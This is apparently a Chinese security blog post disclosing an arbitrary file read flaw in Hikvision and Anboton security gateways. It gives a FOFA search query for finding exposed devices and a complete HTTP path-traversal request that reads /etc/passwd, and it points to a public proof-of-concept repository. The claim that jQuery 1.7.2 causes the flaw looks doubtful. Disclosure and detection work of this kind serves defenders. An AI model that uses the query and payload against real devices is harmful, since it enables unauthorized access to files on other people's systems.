 #  海康威视安全接入网关任意文件读取漏洞   
原创 安全透视镜  网络安全透视镜   2023-12-27 07:00  
  
# 一、漏洞描述  
  
  
海康威视安全接入网关存在任意文件读取漏洞，通过此漏洞攻击者可读取服务器上任意文件。  
  
漏洞成因：该系统使用Jquery-1.7.2 , 该版本存在任意文件读取漏洞。除了海康威视，安博通应用网关也存在此漏洞  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4apsAkic1fiadTxkJA6Cib9sZvIUPQSm97mF5WY7nibAbkiaLZlqfuf1tKQHh4ktkY6erFZVAxvWcHJaw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4apsAkic1fiadTxkJA6Cib9sZAm59De4MNyzsYwJP8RCZMVvYXgYrpoKjlmEHuibiaOsUsl1icByzftMQw/640?wx_fmt=png&from=appmsg "")  
  
# 二、网络空间搜索引擎搜索  
  
  
fofa查询  
```
body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="ABT-应用网关" || body="webui/js/jquerylib/jquery-1.7.2.min.js" && product="HIKVISION-安全网关"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4apsAkic1fiadTxkJA6Cib9sZFs3UJpOHpHLkwIxkFT3icIAM0GhXKZLeO77jJRnmBFibGF62OaAoC8uQ/640?wx_fmt=png&from=appmsg "")  
  
# 三、漏洞复现  
  
  
读取服务器密码文件POC  
```
GET /webui/?file_name=../../../../../etc/passwd&g=sys_dia_data_down HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USGSESSID=b75bce9897c9e543ab7be9ac44af4f76
Upgrade-Insecure-Requests: 1
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4apsAkic1fiadTxkJA6Cib9sZj3Wiaib71WibwPhacyu9s7bcAH6wXZzIOfPFTFSkUWyZkibe8t8hicuRscw/640?wx_fmt=png&from=appmsg "")  
  
# 四、漏洞检测  
  
  
pocsuite3漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4apsAkic1fiadTxkJA6Cib9sZ8ZXUWyXyE6JbbXHwuibZjtrjqOPV8kOkOoL7ZsZ5VcnKya6H2kT7x3A/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测脚本已上传免费漏洞库  
  
地址：  
  
https://github.com/Vme18000yuan/FreePOC  
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54mVicYJkaOO1JQicEDBGCBM1P7IiaiablZ9tEUrP27FyvB9CZWl5SiaqhicDw/640?wx_fmt=png "")  
  
****  
  
